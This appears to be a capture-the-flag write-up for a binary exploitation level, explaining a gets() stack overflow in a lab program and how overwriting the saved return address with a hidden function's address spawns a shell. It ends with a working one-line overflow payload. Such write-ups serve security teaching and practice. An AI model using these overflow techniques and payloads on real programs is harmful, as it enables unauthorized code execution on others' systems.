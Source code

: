 # LEVEL 1

## 💡 Explanation

In this level we have to:
1. When launching the program `./level1` it waits for an input; by passing "aaaa" it exist without any problem but if the input is much longer it segfaults!
2. By disambling the main we see that there is a call to the function `gets` which is probably the one causing the segfault. This can easily be exploited by doing a buffer overflow and understanding where is each register saved in memory. [Here I spent HOURS looking for how to exploit the buffer overflow and pass a shellcode, but no...]
3. After the small parenthesis I've realised that when looking at what is in the binary but not in the main we discover a function `run` which is not called by the main. By looking the objdump we see that this function has a call to `system` and when looking at the hexdump we see some strings as "Good... Wait what?" and "/bin/sh".
4. We are going to try to access the function `run` by exploiting the buffer overflow that we talked about before. By having a look at the stack after calling `gets` and passing a long string of "a" (61 in hex) we will have something like this:

```
0xbffff6d0:	 <  ESP  >	0x0000002f	0xbffff72c	0xb7fd0ff4
0xbffff6e0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff6f0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff700:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff710:	0x61616161	0x61616161	0x08048400	0xb7fd0ff4
0xbffff720:	0x080484a0	0x00000000	 <  EBP  >	 <  EIP  >
```

5. We can see that if we exceed the buffer we can write into the EIP and therefore, the program will jump to that instruction after the get; therefore, we'll have to place the address of the function `run` (/!\ little endian! 08048444 => \x44\x84\x04\x08) exactly on the EIP. To do so, we have to calculate were does the program start writing the input (0xbffff6e0) and how many bytes we have until EIP (0xbffff72c - 0xbffff6e0) which gives a total of 76 bytes.

## 👾 Commands

To find the solution:
```
[VM]  objdump -d /home/user/level1/level1
[VM]  hexdump -C /home/user/level1/level1
[GDB] disas main
[GDB] disas run
[GDB] x/24xw $esp
```

To find the flag:
- `(python -c 'print "1"*76 + "\x44\x84\x04\x08"' ; cat - ) | /home/user/level1/level1 `

